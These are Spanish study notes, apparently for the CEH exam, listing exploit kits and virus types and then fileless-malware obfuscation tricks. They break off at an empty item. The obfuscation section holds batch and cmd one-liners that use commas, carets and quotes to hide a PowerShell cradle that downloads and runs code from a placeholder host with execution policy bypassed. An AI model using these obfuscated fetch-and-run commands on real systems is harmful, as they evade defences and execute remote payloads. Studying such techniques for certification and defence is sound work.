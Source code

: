 - Ej. Lord, Underminer Exploit Kit, RIG Exploit kit, Magnitude, Angler, Neutrino, Terror, Sundown

## Virus:
Para mi el termino generico de cualquier pieza de codigo maliciosa como trojans, worms, etc, pero para CEH "auto-replicant software"

### Tipos de virus:
- System or Boot Sector Viruses: Modifican el MBR haciendo que se ejecute codigo antes de su lectura.
- File virus: COM, EXE, SYS, OVL, OBJ, PRG, MNU, and BAT files.
- Multipartite Viruses: Usa tecnicas de los dos anteriores
- Macro virus: 
- Stealth Viruses/Tunneling Viruses: Alteran los "Sys calls" haciendo que cuando pidas información muestren que pesan o son otro tipo de archivos. 
- Cluster Viruses: Altera el puntero de los varios archivos haciendo que apunten a el.
- Encryption Viruses: empaqueta y cifra el codigo malicioso
- Sparse Infector Viruses: Infecta a otros archivos con triggers especificos, como horarios logins, etc.
- Polymorfic virus: Muta el cifrado y las llaves en cada desencriptación.
- Metamorphic Viruses: Muta el codigo
- Overwriting File or Cavity Viruses: Sobre escriben archivos originales con codigo malicioso y el espacio restante le colocan binarios random o null.
- Companion/Camouflage Viruses: Abusan de el orden normal de ejecución sobre poniendo archivos COM sobre EXE originales, cuando no se especifica la extensión el orden es:
  - 1 - COM
  - 2 - EXE
  - 3 - BAT
- Shell Viruses: Hacen que el codigo original sea una subrutina, convirtiendose en el controlador.
- File Extension Viruses: Cambian la extensión
- FAT Viruses
- Logic Bomb Viruses
- Web Scripting Viruses
- E-mail Viruses
- Armored Viruses: Usan tecnicas de protección de codigo como, Anti-disassembly, Anti-debugging, Anti-heuristics, Anti-emulation, Anti-goat (detecta y solo afecta archivos en especifico)

### Fileless Malware

#### Filess obuscation:
- 1 Comas, punto y coma:
```
file.bat> ,;cmd.exe,/c,;,echo;powershell.exe -NoExit -exec bypass -nop Invoke-Expression(New-Object System.Net.WebClient).DownloadString(‘https://targetwebsite.com”)&&echo,exit
```
- 2 Parenthesis (para usar saltos):
```
file.bat> cmd.exe /c ((echo command1)
&&(
echo command2))
```
- 3 Caret Symbol:
```
file.bat> C:\WINDOWS\system32\cmd.exe /c p^^o^^w^^e^^r^^s^^h^^e^^l^^l^^.^^e^^x^^e -No^^Exit -exec bypass -nop Invoke-Expression (New-Object System.Net.WebClient).DownloadString(("https://targetwebsite.com")&&echo,exit
```
- 4 Double Quotes:
```
file.bat> Pow””er””Shell -N””oExit -ExecutionPolicy bypass -noprofile -windowstyle hidden cmd /c Flower.jpg
```
- 5 Custom environement variables:
```
```